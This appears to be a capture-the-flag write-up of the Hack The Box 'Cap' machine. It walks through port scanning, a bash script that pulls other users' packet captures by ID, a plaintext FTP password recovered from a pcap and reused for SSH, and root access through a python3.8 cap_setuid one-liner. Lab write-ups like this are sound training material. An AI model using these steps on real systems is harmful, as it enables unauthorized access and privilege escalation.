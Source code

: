 ```yaml
---
title: HTB-Cap
draft: false
tags:
  - htb
  - linux
  - ftp
  - pcap
  - wireshark
  - setuid
  - capabilities
  - easy
---
```

![](https://i.imgur.com/uyzHwGN.png)

## Information Gathering
### Rustscan

**Rustscan** finds **FTP**, **SSH**, and **HTTP** open:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/cap]
└─$ rustscan --addresses 10.10.10.245 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
<snip>
Host is up, received conn-refused (1.6s latency).
Scanned at 2024-04-06 11:41:43 EDT for 4s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

### Nmap

Nmap finds nothing much:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/cap]
└─$ sudo nmap -sVC -p 21,22,80 10.10.10.245                 
[sudo] password for yoon: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 11:42 EDT
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.98s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
<snip>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.78 seconds
```

## Enumeration
### FTP - TCP 21

It seems like anonymous login is not allowed, I would have to come back to FTP with valid credentials:

![](https://i.imgur.com/2sL4k9k.png)



### HTTP - TCP 80

The website shows a security dashboard for user **Nathan**:

![](https://i.imgur.com/NwArXML.png)


Going to `/capture` will read me to `http://10.10.10.245/data/1`, where I can download packets pcap file:

![](https://i.imgur.com/8hONvPE.png)


After downloading, I can see all the packets that is being sent from my IP to the target server:

![](https://i.imgur.com/pGmkEWY.png)


`http://10.10.10.245/netstat` shows network running on server:

![](https://i.imgur.com/2lp23J1.png)


`http://10.10.10.245/ip` shows the result of **ifconfig** command:

![](https://i.imgur.com/I1JJOii.png)

Directory Bruteforcing finds nothing intriguing:

`sudo feroxbuster -u http://10.10.10.245 -n -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

![](https://i.imgur.com/lwBVQxd.png)

## Shell as Nathan
### Bruteforce on /download

I tried Command Injection on `/netstat` and `/ip` parameters but both weren't vulnerable. So I will move on to bruteforcing `/data/<number>` since there might be a download from other users as well.

Using bash script, I can automate this procedure, which will download files from `/download/0` to `/download/100`:

```bash
#!/bin/bash

# Loop from 1 to 100
for ((i = 0; i <= 100; i++)); do
    url="http://10.10.10.245/download/$i"

    # Check if the URL returns non-empty content
    response=$(curl -s -o /dev/null -w "%{http_code}" "$url")
    
    # If the response is not empty (HTTP status 200), download the file
    if [ "$response" == "200" ]; then
        echo "Downloading file $i..."
        curl -O "$url"
    else
        echo "Skipping file $i (HTTP $response)"
    fi
done
```


Running the bash script discovered one more download which is /download/0`:

![](https://i.imgur.com/DfI7eul.png)


Before analyzing the file **0** with **Wireshark**, I will hunt for keyword **pas** and it discovers: **Buck3tH4TF0RM3!**

`strings 0 | grep -i 'pass'`

![](https://i.imgur.com/pUKoWji.png)

Opening file **0** using Wireshark shows that found password is from user **Nathan** during he's FTP authentication:

![](https://i.imgur.com/kzod7lD.png)

We can see it in plain text by following the TCP Stream:

![](https://i.imgur.com/VOoRwmJ.png)



### FTP nathan

Using the found credentials, I can sign-in to FTP as **nathan**:

![](https://i.imgur.com/MRghB9l.png)


Below is how `/var/www/html` is consisted for this server and we can view all the **.pcap** files on `/var/www/html/upload`:

![](https://i.imgur.com/VTSDg5E.png)

Since FTP shell is restrictive to commands, I tried to upload reverse shell to `/var/www/html` but permission was denied for all the folder.

Luckily, **nathan** is reusing the same password for his SSH connection as well so I can obtain a stable shell through SSH.

## Privesc: nathan to root

Running **linpeas.sh** discovers **capabilites** on **python3.8**:


![](https://i.imgur.com/vL4vE6P.png)

**cap_setuid** has the following ability according to the man page:

> * Make arbitrary manipulations of process UIDs (setuid(2), setreuid(2), setresuid(2), setfsuid(2)); * forge UID when passing socket credentials via UNIX domain sockets; * write a user ID mapping in a user namespace (see user_namespaces(7)).


I can abuse this capability following guide from [GTFOBins](https://gtfobins.github.io/gtfobins/python/): 

![](https://i.imgur.com/LlCkMFT.png)


Running the command from above, It instantly give me shell as the root:

`/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![](https://i.imgur.com/GgiF1oF.png)


## References
- https://gtfobins.github.io/gtfobins/python/